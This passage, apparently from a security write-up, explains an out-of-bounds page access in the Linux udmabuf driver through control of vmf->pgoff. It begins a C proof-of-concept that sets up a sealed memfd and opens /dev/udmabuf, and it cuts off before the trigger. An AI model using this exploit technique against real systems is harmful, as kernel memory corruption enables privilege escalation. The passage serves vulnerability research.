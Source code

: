 The variable we need to control is `vmf->pgoff`, because `ubuf->pages` allows any value to be accessed. This variable is set by the kernel in the fault handler by getting the relative page number from the faulty address on the virtual memory area. Which means that it will be `ARRAY_POSITION / 4096`.

Let's try to perform an OOB access in the vulnerable code. The process that executes the following code will act as the exporter and after as the importer. This means that, in the same process, we will perform all exporter operations and then call mmap on the udmabuf file descriptor.

```c
#define _GNU_SOURCE
#include <errno.h>
#include <fcntl.h>
#include <linux/memfd.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <unistd.h>

struct udmabuf_create
{
  uint32_t memfd;
  uint32_t flags;
  uint64_t offset;
  uint64_t size;
};

#define UDMABUF_CREATE _IOW('u', 0x42, struct udmabuf_create)

#define NUM_PAGES 10

int main(int argc, char *argv[])
{
	struct udmabuf_create create;
	int devfd, memfd, udmabuf_fd;
	off_t size = getpagesize() * NUM_PAGES;
	char* buf;

	// exporter
	if ((memfd = memfd_create("udmabuf",  MFD_ALLOW_SEALING)) < 0)
	{
		printf("memfd_create error: %s\n", strerror(errno));
		return errno;
	}

	if (ftruncate(memfd, size))
	{
		printf("ftruncate error: %s\n", strerror(errno));
		return errno;
	}

	if (fcntl(memfd, F_ADD_SEALS, F_SEAL_SHRINK) < 0)
	{
		printf("fcntl error: %s\n", strerror(errno));
		return errno;
	}

	if ((devfd = open("/dev/udmabuf", O_RDWR)) < 0)
	{
		printf("open /dev/udmabuf error: %s\n", strerror(errno));
		return errno;
```